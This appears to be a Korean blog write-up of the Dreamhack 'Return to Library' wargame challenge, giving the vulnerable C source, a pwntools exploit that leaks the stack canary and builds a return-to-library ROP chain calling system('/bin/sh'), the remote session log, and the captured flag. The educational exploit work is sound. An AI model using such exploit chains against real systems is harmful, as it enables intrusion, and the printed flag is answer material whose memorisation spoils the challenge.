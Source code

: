 ```yaml
---
title: "[Dreamhack] Return to Library 문제 풀이"
date: 2024-10-02
tags: ["dreamhack", "system_hacking", "wargame"]
draft: false
summary: "요약: ㅏ... 머리 아파..."
---
```


# 문제 개요

```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

이 문제는 위와 같은 소스코드를 제공해주고 있다.

보다시피 system함수를 사용해서 plt와 got를 불러오고 있고, Canary를 leak하는 Input과 RAO를 진행하는 Input으로 구성되어 있다.

그리고 대놓고 전역변수 binsh(**포인터 변수**)에 '/bin/sh'를 저장해준다.

~~이거 포인터 변수인줄 몰랐다가 하루종일 디버깅으로 삽질함. 문제를 똑바로 읽는 습관을 가지자.~~

당연하게도 BOF가 두개의 Input에 빵빵 터지고 있다.

그럼 Canary leak하고 RAO를 Canary를 맞춰서 진행한다.

반환 주소는 system으로 전역 변수 binsh를 인자로 주면 끝!

**당장 익스플로잇 코드를 이에 맞춰서 작성해보자.**
# 익스플로잇 코드 작성

```python
from pwn import *

p = remote('host1.dreamhack.games', 21205)
#p = process('./rtl')
elf = ELF('./rtl')

binsh = 0x400874
sys = elf.plt['system']
pr = 0x0000000000400853
ret = 0x0000000000400285

leak_canary = b'A'* (56+1) # null byte
pause()
p.send(leak_canary)
p.recvuntil(leak_canary)
canary = u64(b'\x00'+p.recv(7))

print('canary: '+hex(canary))
print('sys: '+hex(sys))
print('binsh: '+hex(binsh))

payload = b'B' * 56
payload += p64(canary)
payload += b'C' * 8
payload += p64(ret)
payload += p64(pr)
payload += p64(binsh)
payload += p64(sys)

p.sendlineafter(b"Buf: ", payload)

p.interactive()
```

익스플로잇 코드는 위와 같다.

이 코드 짜면서 설화가 하나 있는데, 간단하게 풀어보겠다.

## 나의 미친 발상 시작

문제 소스코드를 읽어보고 있는데, 뭔가 이상했다.

바로 `system("echo 'system@plt");` 이 부분이다.

보면 `system@plt`를 출력하는 코드 같았다. 근데 뭔가 착오가 있던건지 저 코드가 고대로 적용되어있었다.

그래서 내가 다시 컴파일을 해서 문제를 풀어나갔다.
## 문제 발생

과연 무슨 문제가 발생했냐..

익스플로잇 코드를 보면 `pop rdi` 가젯이 있는게 보일것이다. (pr이라는 변수가 pop rdi이다.)

저게 내가 컴파일한 바이너리에는 존재하지 않는것이다. 머리가 터지는 순간이었다.

그래서 나는 별생각 없이 Stack Alignment만 맞춰주려고 `ret` 가젯만 가지고 시도했다.

근데 나중에 가서 보니까 system 내부에서 명령어를 처리해주는 부분에 인자가 뭐가 이상하게 들어갔다.

`pop rdi`가 없어서 인자가 정상적으로 안들어간것이다. 이런 망할. 머리가 한번 더 pop 되는 순간이었다.

알고보니 내가 문제였다. 왜 내가 컴파일을 했을까.. 이것 때문에 5시간을 버렸다. 그래도 빨리 찾아서 다행이다.

## 문제 해결

그래서 원래 있던 문제파일을 사용하기로 했다.

그러니까 바로 해결되더군. ~~왜 그런 멍청한 생각을 했을까...~~

바로 로컬 익스플로잇을 진행했더니 너무 잘된다. 이런.

**그럼 이제 리모트 익스플로잇을 해보자.**
# 익스플로잇!!

```bash
[+] Opening connection to host1.dreamhack.games on port 13500: Done
[*] '/root/dh/Return_to_Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Paused (press any to continue)
canary: 0xa41ad8e10bcd4600
sys: 0x4005d0
binsh: 0x400874
[*] Switching to interactive mode
$ ls
flag
rtl
run.sh
$ cat flag
DH{13e0d0ddf0c71c0ac4410687c11e6b00}
[*] Got EOF while reading in interactive
$ 
[*] Closed connection to host1.dreamhack.games port 13500
```

SUCCESS!!!!

# 느낀점 또는 발전한 점

확실한건 문제를 좀 잘 읽어봐야겠다는 생각을 가지게 되었다.

소스코드를 주는데도 틀려서 솔직히 조금 쪽팔린다.. ㅠㅠ

다음엔 더 나은 내가 되도록..